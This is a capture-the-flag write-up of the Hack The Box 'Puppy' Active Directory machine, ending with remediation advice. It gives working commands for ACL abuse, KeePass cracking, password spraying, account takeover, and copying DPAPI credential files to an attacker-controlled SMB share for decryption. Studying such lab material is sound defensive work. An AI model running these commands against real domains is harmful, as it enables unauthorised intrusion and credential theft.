# Puppy

<div class="wu-meta" markdown="span">
<span class="wu-badge wu-os">:fontawesome-brands-windows: Windows / Active Directory</span>
<span class="wu-badge wu-diff wu-diff--medium">Medium</span>
<span class="wu-tags">
<span class="wu-tag">AD ACLs</span>
<span class="wu-tag">KeePass</span>
<span class="wu-tag">DPAPI</span>
</span>
</div>

!!! abstract "What this box demonstrates"
    Puppy was an account-by-account investigation. Group membership unlocked a backup, a password reset still required enabling the target account, and a later backup supplied the password needed to decrypt DPAPI material.

## Attack path

1. Use the supplied Levi account to change Developers group membership and read the DEV share.
2. Crack KeePass, take over and enable Adam, then recover Steph's password from a backup.
3. Decrypt Steph's DPAPI credential blob and authenticate as steph.cooper_adm.

[HTB machine](https://app.hackthebox.com/machines/661) · [Official retirement evidence](https://labs.hackthebox.com/achievement/machine/2048041/661) (checked November 17, 2026).

## Recon & Enumeration

### Port Discovery

```fish
set -x IP 10.10.11.70
# fast port scan
set ports (nmap -p- --min-rate=1000 -T4 -n --open $IP | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed 's/,$//') && echo $ports
# nmap scan
sudo nmap -p$ports -sC -sV $IP -oG scan_tcp
```

#### Notable open services
53 (DNS), 88 (Kerberos), 111 (rpcbind), 135/139/445 (SMB/RPC), 389/3268 (LDAP/AD), 5985 (WinRM HTTP), many RPC high ports.
### Service Enumeration
#### rpcclient
```bash
kali> rpcclient -U "levi.james"%"KingofAkron2025!" $IP   
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[levi.james] rid:[0x44f]
user:[ant.edwards] rid:[0x450]
user:[adam.silver] rid:[0x451]
user:[jamie.williams] rid:[0x452]
user:[steph.cooper] rid:[0x453]
user:[steph.cooper_adm] rid:[0x457]
```

Use this to create a list of users, `users.txt`, we'll use for brute-forcing later on.
```text
Administrator
Guest
krbtgt
levi.james
ant.edwards
adam.silver
jamie.williams
steph.cooper
steph.cooper_adm
```
#### SMB
```bash
nxc smb 10.10.11.70 -u 'levi.james' -p 'KingofAkron2025!' --shares
```

<figure class="wu-evidence" markdown>

<figcaption>The supplied account enumerates SMB shares.</figcaption>
</figure>

**SMB shares:** IPC$, NETLOGON, SYSVOL (read access) — later DEV share accessed after group abuse.

---
## Foothold (BloodHound abuse)

**Goal:** escalate group membership to access DEV share.

Collect data and upload to [BloodHound](https://github.com/SpecterOps/BloodHound):
```bash
bloodhound-python -u 'levi.james' -p 'KingofAkron2025!' -d puppy.htb -ns 10.10.11.70 -c All --zip
```

The resulting graph shows that `levi.james` is in `HR` which has GenericWrite to `DEVELOPERS`.

<figure class="wu-evidence" markdown>

<figcaption>BloodHound shows the group-write path into Developers.</figcaption>
</figure>

Abuse GenericWrite to add `levi.james` to `DEVELOPERS` (NetRPC command):
```bash
net rpc group addmem "DEVELOPERS" "levi.james" -U "dc.puppy.htb"/"levi.james"%"KingofAkron2025!" -S "dc.puppy.htb"
```

<figure class="wu-evidence" markdown>

<figcaption>The Developers group membership is changed with the supplied account.</figcaption>
</figure>

Verify and access DEV share:

<figure class="wu-evidence" markdown>

<figcaption>The new group membership grants read access to DEV.</figcaption>
</figure>

```bash
smbclient //10.10.11.70/DEV -U levi.james%KingofAkron2025!
```

**Result:** read access to `recovery.kdbx` (KeePass DB).

---
## Lateral Movement — KeePass Extraction & Cracking

Copy `recovery.kdbx` to attacker machine via smbclient.

<figure class="wu-evidence" markdown>

<figcaption>The KeePass recovery database is downloaded from DEV.</figcaption>
</figure>

Note that attempting to use `keepass2john` prompts the file version is not supported. 

<figure class="wu-evidence" markdown>

<figcaption>keepass2john rejects the database file version.</figcaption>
</figure>

Used [keepass4brute](https://github.com/r3nt0n/keepass4brute) to crack the password.

```bash
~/Desktop/kali/Cracks/keepass4brute.sh recovery.kdbx /usr/share/wordlists/rockyou.txt
```

<figure class="wu-evidence" markdown>

<figcaption>keepass4brute recovers the master password liverpool.</figcaption>
</figure>

Used KeePass software to open kdbx file with found password, `liverpool`, then extracted all found passwords for brute-forcing later.

```text
Steve2025!
JamieLove2025!
ILY2025!
HJKL2025!
Antman2025!
```

Used NetExec to find the valid credentials `ant.edwards:Antman2025!`.
```bash
nxc smb 10.10.11.70 -u users.txt -p passwords.txt --continue-on-success
```

Re-run BloodHound with `ant.edwards` to find privileged paths.
```bash
bloodhound-python -u 'ant.edwards' -p 'Antman2025!'  -d puppy.htb -ns 10.10.11.70 -c All --zip
```

---
## Account Takeover & Enabling Disabled Accounts

Enumerated BloodHound to find `ant.edwards` privilege.

<figure class="wu-evidence" markdown>

<figcaption>BloodHound identifies Ant&#x27;s GenericAll control over Adam.</figcaption>
</figure>

Because `ant.edwards` has GenericAll on `adam.silver`, we could perform a password reset:
```bash
net rpc password "adam.silver" "Password1!" -U "dc.puppy.htb"/"ant.edwards"%"Antman2025!" -S "dc.puppy.htb"
```

Note that while this command successfully updates user `adam.silver` password, we were still unable to WinRM onto the target. 

Enumerating BloodHound further for this user revealed the account was not enabled.

<figure class="wu-evidence" markdown>

<figcaption>Adam&#x27;s object properties show that the account is disabled.</figcaption>
</figure>

Enabled user account via `ldapmodify`
```bash
printf 'dn: CN=Adam D. Silver,CN=Users,DC=PUPPY,DC=HTB
changetype: modify
replace: userAccountControl
userAccountControl: 66048
' | ldapmodify -x -H ldap://10.10.11.70 -D 'ANT.EDWARDS@PUPPY.HTB' -W
```

Accessed the target via WinRM with our now enabled user:    
```bash
evil-winrm -i puppy.htb -u "adam.silver" -p "Password1!"
```

---
## Backup File Reveals Credentials
Navigated to C:\ to find a `Backups` folder and associated backup file.

<figure class="wu-evidence" markdown>

<figcaption>Adam&#x27;s session finds a website backup under C:\Backups.</figcaption>
</figure>

Downloaded with WinRM onto attacking machine, then unzipped and read the contents of `nms-auth-config.xml.bak`

<figure class="wu-evidence" markdown>

<figcaption>The extracted configuration contains Steph&#x27;s lab password.</figcaption>
</figure>

Used WinRM with found credentials: `steph.cooper:ChefSteph2025!`
```bash
evil-winrm -i puppy.htb -u "steph.cooper" -p "ChefSteph2025!"
```

---
## Privilege Escalation — DPAPI Extraction & Decryption

**Overview:** find DPAPI masterkey and credential blobs in `C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\<SID>\` and `...\Credentials\`.

From `steph.cooper`, used the WinRM shell to copy files to attacker SMB share:
```powershell
# on Kali
impacket-smbserver share . -smb2support
# on WinRM shell (Windows cmd/powershell)
copy "C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\556a2412-1275-4ccf-b721-e6a0b4f90407" \\10.10.14.8\share\masterkey_blob
copy "C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\C8D69EBE9A43E9DEBF6B5FBD48B521B9" \\10.10.14.8\share\credential_blob
```

<figure class="wu-evidence" markdown>

<figcaption>A direct WinRM credential-file download fails, prompting the SMB transfer approach.</figcaption>
</figure>

Use `impacket-dpapi` to recover keys and decrypt:
Recovery:
```bash
impacket-dpapi masterkey -file masterkey_blob -password 'ChefSteph2025!' -sid S-1-5-21-1487982659-1829050783-2281216199-1107
```

Decryption:
```bash
impacket-dpapi credential -file credential_blob -key 0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84
```

<figure class="wu-evidence" markdown>

<figcaption>DPAPI decryption recovers the administrative account credentials.</figcaption>
</figure>

Result: recovered `steph.cooper_adm:FivethChipOnItsWay2025!` — use WinRM to login as admin.

```bash
evil-winrm -i puppy.htb -u "steph.cooper_adm" -p "FivethChipOnItsWay2025!"
```

---
## Findings & Remediation

- **Over-privileged groups (GenericWrite/GenericAll)** — _Impact:_ allows account modifications and privilege escalation. _Remediate:_ review AD ACLs, remove unnecessary write rights, apply least privilege.

- **Credentials stored in accessible network share** — _Impact:_ credential disclosure. _Remediate:_ avoid storing KeePass DBs on shares; use strong master passwords; enable file ACLs and encryption.

- **DPAPI material left on disk accessible to user** — _Impact:_ local credential recovery. _Remediate:_ restrict profile access, monitor file copies/export of `Protect`/`Credentials` folders, implement LSA protection.
 
- **Disabled but resettable accounts** — _Impact:_ account state change without alerting. _Remediate:_ monitor account state changes, enforce approval workflows and logging.

---

## Lessons learned

A successful password reset did not make a disabled account usable. Check account state as well as ACLs, and treat readable backups and decryptable DPAPI material as separate steps in the credential chain.
